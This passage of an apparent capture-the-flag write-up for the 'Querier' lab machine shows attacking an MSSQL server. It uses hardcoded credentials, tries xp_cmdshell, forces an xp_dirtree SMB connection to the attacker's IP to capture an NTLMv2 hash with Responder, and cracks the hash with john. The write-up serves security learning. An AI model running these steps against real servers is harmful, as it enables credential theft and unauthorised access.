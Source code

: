 So it seems that the username and password for the MSSQL server have been hardcoded into the macro. We can also see this by opening the file in LibreOffice and checking out the macros:

![](/assets/images/htb-writeup-querier/mssql_credentials.png)

- Username: `reporting`
- Password: `PcwTWTHRwryjc$c6`

### Getting RCE through MSSQL

I used the Impacket `mssqlclient.py` to connect to the database:

```
# /usr/share/doc/python-impacket/examples/mssqlclient.py -windows-auth querier/reporting@querier.htb
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL>
```

The first thing I tried was to use `xp_cmdshell` to run commands but the current user doesn't have enough privileges:

```
SQL> xp_cmdshell "whoami";
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL> EXEC sp_configure 'show advanced options', 1;
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
SQL> RECONFIGURE;
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
```

However, we can trigger an SMB connection back to us with `xp_dirtree` and steal the NTLMv2 hash from the server using Responder:

```
SQL> xp_dirtree "\\10.10.14.23\gimmesomehashes"
```

![](/assets/images/htb-writeup-querier/responder.png)

The account is using a weak password that we can crack with the `rockyou.txt` wordlist:

```
# john -w=/usr/share/wordlists/rockyou.txt --fork=4 hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)
1 0g 0:00:00:06 DONE (2019-02-17 19:17) 0g/s 428905p/s 428905c/s 428905C/s CHIKITITA1
3 0g 0:00:00:06 DONE (2019-02-17 19:17) 0g/s 406211p/s 406211c/s 406211C/s Pippa1862
2 0g 0:00:00:06 DONE (2019-02-17 19:17) 0g/s 421156p/s 421156c/s 421156C/s HIKID25
4 1g 0:00:00:06 DONE (2019-02-17 19:17) 0.1515g/s 339332p/s 339332c/s 339332C/s corporate568
Waiting for 3 children to terminate
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
